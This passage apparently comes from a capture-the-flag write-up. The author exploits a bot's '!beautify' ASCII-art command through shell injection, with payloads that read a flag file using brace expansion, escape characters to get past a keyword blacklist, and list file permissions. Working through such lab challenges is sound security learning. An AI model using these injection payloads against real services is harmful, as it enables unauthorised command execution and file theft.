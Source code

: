 ```
 \___|_| |_|\__,_|_|_(_) .__/ \__, |
                       | |     __/ |
                       |_|    |___/ 
                      _                               _        _        _   
                     (_)                             | |      | |      | |  
 _ __ ___  __ _ _   _ _ _ __ ___ _ __ ___   ___ _ __ | |_ ___ | |___  _| |_ 
| '__/ _ \/ _` | | | | | '__/ _ \ '_ ` _ \ / _ \ '_ \| __/ __|| __\ \/ / __|
| | |  __/ (_| | |_| | | | |  __/ | | | | |  __/ | | | |_\__ \| |_ >  <| |_ 
|_|  \___|\__, |\__,_|_|_|  \___|_| |_| |_|\___|_| |_|\__|___(_)__/_/\_\\__|
             | |                                                            
             |_|                                                            
__     
\ \    
 \ \   
  \ \  
   \ \ 
    \_\
```

Yay, finally!

```bash
!beautify "\'`{cat,.flag.txt}`\'"
```

```
Your lucky number has been disconnected.
```

Once again, we've hit the blacklist. Indeed, `flag` is in it. PayloadAllTheThings once again, let's try another payload:

```bash
!beautify "\'`{cat,.fl\ag.txt}`\'"
```

Once again, the output is solely `\\`. So there was an error, or the file is empty.

Maybe `.flag.txt` is not readable?

```bash
!beautify "\'`{ls,-l,.fl\ag.txt}`\'"
```

```
__                                                                         __ 
\ \                                                                       /_ |
 \ \ ______ _ ____      ________ _ ____      ________ _ __ ______ ______   | |
  \ \______| '__\ \ /\ / /______| '__\ \ /\ / /______| '__|______|______|  | |
   \ \     | |   \ V  V /       | |   \ V  V /       | |                   | |
    \_\    |_|    \_/\_/        |_|    \_/\_/        |_|                   |_|


                 _                     _     _  _  __   _   _              __ 
                | |                   | |   | || |/_ | | \ | |            /_ |
 _ __ ___   ___ | |_   _ __ ___   ___ | |_  | || |_| | |  \| | _____   __  | |
| '__/ _ \ / _ \| __| | '__/ _ \ / _ \| __| |__   _| | | . ` |/ _ \ \ / /  | |
| | | (_) | (_) | |_  | | | (_) | (_) | |_     | | | | | |\  | (_) \ V /   | |
|_|  \___/ \___/ \__| |_|  \___/ \___/ \__|    |_| |_| |_| \_|\___/ \_/    |_|


 __   __   ____  _____      __ _              _        ___     
/_ | / / _|___ \| ____|    / _| |            | |      | \ \    
 | |/ /_(_) __) | |__     | |_| | __ _  __ _ | |___  _| |\ \   
 | | '_ \  |__ <|___ \    |  _| |/ _` |/ _` || __\ \/ / __\ \  
 | | (_) | ___) |___) |  _| | | | (_| | (_| || |_ >  <| |_ \ \ 
 |_|\___(_)____/|____/  (_)_| |_|\__,_|\__, (_)__/_/\_\\__| \_\
                                        __/ |                  
                                       |___/                   
```